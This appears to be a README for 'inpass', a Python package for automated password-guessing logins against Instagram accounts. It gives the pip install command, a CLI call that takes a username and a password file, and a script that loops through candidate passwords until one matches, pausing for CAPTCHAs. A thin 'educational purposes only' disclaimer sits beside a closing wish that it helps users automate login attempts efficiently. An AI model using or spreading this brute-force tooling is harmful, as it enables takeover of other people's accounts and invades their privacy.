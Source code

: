 #  inpass 1.0.0

`inpass` is a Python package designed for automated login attempts on Instagram. This package can help automate the login process using multiple passwords, handle CAPTCHA challenges, and track URL changes during login attempts.

## Features

- Automated login attempts for Instagram.
- Handles CAPTCHA challenges by pausing and allowing manual resolution.
- Tracks URL changes during the login process.
- Command-line interface (CLI) and programmatic usage supported.

## Installation

You can install the package using `pip`:

```bash
pip install inpass
```

## Usage

### Command-line Interface
- You can use the inpass package directly from the command line. Here’s how:
```bash
inpass --username your_username --password-file passwords.txt
```

### Programmatic Usage
- You can also use the inpass package programmatically in your Python scripts. Below is an example:

```python
import time
import inpass

username = "your_username"
password_file = "passwords.txt"

with open(password_file, 'r') as file:
    passwords = file.read().splitlines()

for password in passwords:
    if inpass.login(username, password):
        print(f"Password match: {password}")
        break
    else:
        print(f"Password {password} not matching")
    time.sleep(1)
else:
    print("All passwords failed.")
```
## License
This project is licensed under the MIT License. See the LICENSE file for details.

### Acknowledgments
Thank you to all the contributors and users who have supported the development of this project.

#### Disclaimer
This package is intended for educational and research purposes only. The author is not responsible for any misuse of this software.

- Thank you for using inpass. We hope it helps you automate your login attempts efficiently.
